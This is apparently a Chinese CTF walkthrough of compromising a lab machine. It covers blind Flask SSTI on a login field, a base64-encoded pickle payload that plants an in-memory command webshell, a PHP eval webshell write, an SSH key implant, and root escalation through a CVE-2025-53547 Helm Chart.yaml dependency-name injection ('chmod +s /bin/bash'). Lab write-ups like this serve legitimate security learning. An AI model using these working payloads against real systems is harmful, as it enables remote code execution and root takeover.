namp扫出来



8080端口的http代理服务还有22的ssh服务



访问后看到python服务猜测是ssti，测了`{{7*7}}` 发现回显 `{{7*7}}`，注入点是username。卡了小半天，想了一下测了下这个`{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('sleep 10').read()")}}`明显的延迟10秒，那么就是无回显ssti遂尝试反弹shell，弹不了，再试试写一句话`{{open('/var/www/html/shell.php','w').write('<?php eval($_POST[1]);?>')}}`



## 无回显ssti写内存马

估计是被过滤了原来是要写内存马，关于内存马可以看这篇[浅谈python内存马 - Sauy's corner](https://sauy.top/2025/04/20/python%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/#Flask%E5%86%85%E5%AD%98%E9%A9%AC%E6%B3%A8%E5%85%A5)

```
{{''.__class__.__mro__[-1].__subclasses__()
[abking].__init__.__globals__['__builtins__']['eval']
("__import__('pickle').loads(__import__('base64').b64decode('gANjYnVpbHRpbnMKZXh
lYwpxAFhpAQAACmRlZiBmKCk6CiAgICByZXR1cm4gX19pbXBvcnRfXygnZmxhc2snKS5nbG9iYWxzLmN
1cnJlbnRfYXBwLmJlZm9yZV9yZXF1ZXN0X2Z1bmNzLnNldGRlZmF1bHQoTm9uZSwgW10pLmFwcGVuZCh
sYW1iZGE6IENtZFJlc3AgaWYgX19pbXBvcnRfXygnZmxhc2snKS5nbG9iYWxzLnJlcXVlc3QuZm9ybS5
nZXQoJ2Fia2luZycpIGFuZCBleGVjKCJnbG9iYWwgQ21kUmVzcDtDbWRSZXNwPV9faW1wb3J0X18oJ2Z
sYXNrJykubWFrZV9yZXNwb25zZShfX2ltcG9ydF9fKCdvcycpLnBvcGVuKF9faW1wb3J0X18oJ2ZsYXN
rJykuZ2xvYmFscy5yZXF1ZXN0LmZvcm0uZ2V0KCdhYmtpbmcnKSkucmVhZCgpKSIpPT1Ob25lIGVsc2U
gTm9uZSkKZigpCnEBhXECUnEDLg=='))")}}
```





注意连接类型要选CMDLINUX。

find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

接着找一下suid提权。



看到最后有个game，很可疑啊。。看看是个什么



应该是自定义的程序，不像是常规的suid



## ssh公钥连接

执行后是一个猜数字的游戏，然后自动运行清空了/opt/data。尝试先写入公钥ssh连接

```bash
#kali 执行
ssh-keygen -t rsa（一直回车三次就行）
#然后将获得的结果中ssh-rsa AAAAB3NzaC1yc2EAAAA.... root@kali的一串复制下来

#靶机执行:
cd
mkdir -p ~/.ssh
chmod 700 .ssh
echo "这里粘贴你复制的公钥" > ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

然后发现需要eecho的用户密码哈。。。gg那就换其他思路，最后看到wp看到使用了penelope

这里说一下我写入公钥踩的几个坑，一个是权限，.ssh目录必须是700，authorized_keys必须是600，然后就是公钥千万不要写错了，然后就是你的kali的目录必须在有id_rsa的目录下或者使用-i指定绝对路径。



然后就是使用helm进行提权。。。

我的kali之前没有下过需要下载。

```bash
wget https://get.helm.sh/helm-v3.6.1-linux-amd64.tar.gz
# 解压压缩包
tar -xf helm-v3.6.1-linux-amd64.tar.gz
# 将helm文件拷贝到系统path路径下
cp linux-amd64/helm /usr/local/bin/helm
# 验证
helm version
```

然后使用helm create创建一个项目然后cd到你的那个项目里面



此时你是第一次的话charts是空的

```bash
# 1. 进入你的test chart目录（已在的话跳过）
cd /home/kali/Desktop/my-test-chart

# 2. 添加gatekeeper官方仓库（仅拉取包用，后续离线使用）
helm repo add gatekeeper https://open-policy-agent.github.io/gatekeeper/charts

# 3. 拉取gatekeeper 3.19.2到本地charts目录（生成tgz包，核心步骤）
helm pull gatekeeper/gatekeeper --version 3.19.2 -d charts/
```

然后执行上面的命令



使用scp传入gatekeeper-3.19.2.tgz。



在tmp目录下创建cve文件夹然后创建charts目录然后把gatekeeper-3.19.2.tgz导入，其实这是一个包管理器，相当于我直接在靶机上面下载一个poc





[CVE-2025-53547：Helm依赖更新代码注入漏洞分析及深度思考-先知社区](https://xz.aliyun.com/news/18811)

```yaml
name: CVE-2025-53547
apiVersion: v2
description: this is a CVE-2025-53547 poc yaml
version: 1.0.0
appVersion: v1.0.0
keywords:
  - helm
  - CVE-2025-53547
home: https://github.com/DVKunion/CVE-2025-53547-POC
sources:
  - https://github.com/DVKunion/CVE-2025-53547-POC
dependencies:
  - name: gatekeeper;chmod +s /bin/bash
    version: 3.19.2
    repository: 'file:///tmp/cve/charts/gatekeeper'
```

最终写入的是这个。。



链接到Chart.lock。。。。

Chart.yaml创建错位置了。。。应该在cve目录下。。



然后玩游戏清掉/opt/data。

然后执行helm dependency build





flag:flag{root-bb62f4f75dd665225409bd1a3ae87665}